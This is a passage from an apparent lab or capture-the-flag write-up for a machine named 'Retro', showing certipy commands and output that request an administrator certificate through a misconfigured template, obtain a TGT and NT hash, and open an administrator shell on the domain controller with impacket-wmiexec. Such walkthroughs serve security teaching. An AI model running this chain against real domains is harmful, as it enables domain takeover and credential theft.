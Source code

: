 Unfortunately, this has failed with the `CERTSRV_E_KEY_LENGTH` which means that the public key does not meet the minimum size required by the specified certificate template. Taking a look back at the `certipy` output we can see that the `RetroClients` certificate template requires minimum RSA key length of 4096 Bytes.

Fortunately, `certipy` allows us to set the RSA key length with the `-key-size` flag.

```
➜  retro certipy req -u 'BANKING$'@retro.vl -p Password123456 -dc-ip 10.10.106.112 -ca retro-DC-CA -template RetroClients -upn administrator@retro.vl -key-size 4096
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 17
[*] Got certificate with UPN 'administrator@retro.vl'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```

We can see that this indeed work and we can now use `auth` module of `certipy` to get a valid TGT as administrator.

```
➜  retro certipy auth -pfx administrator.pfx -dc-ip 10.10.106.112                                                                       
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@retro.vl
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@retro.vl': *******************************:*******************************
```

We now own a administrator certificate which we can use to authenticate to the domain controller.

### Getting shell

Getting shell from this point is a piece of cake. We can use `impacket-wmiexec` to get a semi-interactive shell and execute commands on the domain controller as administrator.

```
➜  retro KRB5CCNAME=administrator.ccache impacket-wmiexec -k -no-pass -dc-ip 10.10.106.112 retro.vl/administrator@dc.retro.vl
Impacket v0.11.0 - Copyright 2023 Fortra

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
retro\administrator
```
